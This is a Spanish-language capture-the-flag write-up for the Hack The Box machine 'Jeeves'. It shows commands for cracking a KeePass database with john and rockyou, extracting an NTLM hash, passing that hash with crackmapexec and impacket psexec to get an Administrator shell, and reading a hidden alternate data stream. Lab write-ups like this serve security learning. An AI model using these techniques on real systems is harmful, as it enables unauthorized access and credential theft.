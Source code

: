# Jeeves-HTB


## NMAP 

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/80858071-c2b7-4e78-b9b7-45587dc34548)

el puerto 80 es un rabbit hole

## RCE

Buscamos en hacktricks lo mas comun de jenkins y lo que vimos es que se pueden ejecutar comandos de varias maneras...

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/3be34640-d0fb-4f22-9dc3-657502160678)


### Windows exploit suggester Next generation

WES-NG is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 11, including their Windows Server counterparts, is supported.

> https://github.com/bitsadmin/wesng

Tiene la capacidad de con el output del systeminfo genera las vulns pero da muchos falsos positivos.

## Priv esca

Buscando tenemos un archivo de keepass ***.kdbx***

```
keepass2john CEH.kdbx

john -w=/usr/share/wordlists/rockyou.txt hash

```

Vamos a usar el keepass cli instalalo en kali como cualquier paquete.


```
kpcli --kdb CEH.kdbx
## Buscar todo los pass
find .
# mostramos dependiendo del numero 
 show -f 0
```

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/40423b6b-98f1-4120-9165-999406ac0309)

Buscando todas las credenciales encontramos un hash que parece ser ntlm

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

```

Solo como cultura la primera parte es el hash del espacio en blanco (aad3b435b51404eeaad3b435b51404ee). Con crackmapexec podemos probar con pass the hash a ver si es el hash del Administrator.

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/7ede367e-3870-4215-9e41-0d764c1ee281)


```
crackmapexec smb 10.129.185.202 -u 'Adminsitrator' -H e0fb1fb85756c24235ff238cbe81fe00
/usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.129.16.56 cmd.exe
```


## Alternative data streams

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/718f2bbc-6feb-49f9-961f-a5fdc960844d)


Es una manera de esconder cosas y se ve algo como esto:


Para listar este tipo de archivos

```
dir /R
more < hm.txt:root.txt

```


































